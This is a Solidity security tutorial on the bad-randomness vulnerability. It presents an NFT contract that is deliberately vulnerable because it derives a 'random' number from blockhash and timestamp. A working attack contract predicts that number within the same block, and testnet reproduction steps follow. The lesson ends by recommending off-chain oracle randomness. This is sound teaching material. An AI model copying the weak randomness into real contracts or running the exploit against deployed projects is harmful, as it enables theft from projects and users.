

# WTF Solidity S07. Bad Randomness

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

-----

In this lesson, we will discuss the Bad Randomness vulnerability in smart contracts and methods to prevent. This vulnerability is commonly found in NFT and GameFi projects, including Meebits, Loots, Wolf Game, etc.

## Pseudorandom Numbers

Many applications on Ethereum require the use of random numbers, such as randomly assigning `tokenId` for NFTs, opening loot boxes, and determining outcomes in GameFi battles. However, due to the transparency and determinism of all data on Ethereum, it does not provide a built-in method for generating random numbers like other programming languages do with `random()`. As a result, many projects have to rely on on-chain pseudorandom number generation methods, such as `blockhash()` and `keccak256()`.

Bad Randomness vulnerability: Attackers can pre-calculate the results of these pseudorandom numbers, allowing them to achieve their desired outcomes, such as minting any rare NFT they want instead of a random selection. For more information, you can read [WTF Solidity 39: Pseudo-random Numbers](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random).



## Bad Randomness Example

Now let's learn about an NFT contract with the Bad Randomness vulnerability: BadRandomness.sol.

```solidity
contract BadRandomness is ERC721 {
    uint256 totalSupply;

    // Constructor, initializes the name and symbol of the NFT collection
    constructor() ERC721("", ""){}

    // Mint function: can only mint when the input luckyNumber is equal to the random number
    function luckyMint(uint256 luckyNumber) external {
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // get bad random number
        require(randomNumber == luckyNumber, "Better luck next time!");

        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

It has a main minting function called `luckyMint()`, where users input a number between `0-99`. If the input number matches the pseudorandom number `randomNumber` generated on the blockchain, the user can mint a lucky NFT. The pseudorandom number is claimed to be generated using `blockhash` and `block.timestamp`. The vulnerability lies in the fact that users can perfectly predict the generated random number and mint NFTs.

Now let's write an attack contract called `Attack.sol`.

```solidity
contract Attack {
    function attackMint(BadRandomness nftAddr) external {
        // Pre-calculate the random number
        uint256 luckyNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Attack using the luckyNumber
        nftAddr.luckyMint(luckyNumber);
    }
}
```

The parameter in the attack function `attackMint()` is the address of the `BadRandomness` contract. In it, we calculate the random number `luckyNumber` and pass it as a parameter to the `luckyMint()` function to complete the attack. Since `attackMint()` and `luckyMint()` are called in the same block, the `blockhash` and `block.timestamp` are the same, resulting in the same random number generated using them.

## Reproduce on `Remix`

Since the Remix VM does not support the `blockhash` function, you need to deploy the contract to an Ethereum testnet for reproduction.

1. Deploy the `BadRandomness` contract.

2. Deploy the `Attack` contract.

3. Pass the address of the `BadRandomness` contract as a parameter to the `attackMint()` function of the `Attack` contract and call it to complete the attack.

4. Call the `balanceOf` function of the `BadRandomness` contract to check the NFT balance of the `Attack` contract and confirm the success of the attack.

## How to Prevent

To prevent such vulnerabilities, we often use off-chain random numbers provided by Oracle projects, such as Chainlink VRF. These random numbers are generated off-chain and then uploaded to the blockchain, ensuring that the numbers are unpredictable. For more information, you can read [WTF Solidity 39: Pseudo-random Numbers](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random).

## Summary

In this lesson, we introduced the Bad Randomness vulnerability and discussed a simple method to prevent it: using off-chain random numbers provided by Oracle projects. NFT and GameFi projects should avoid using on-chain pseudorandom numbers for lotteries to prevent exploitation by hackers.

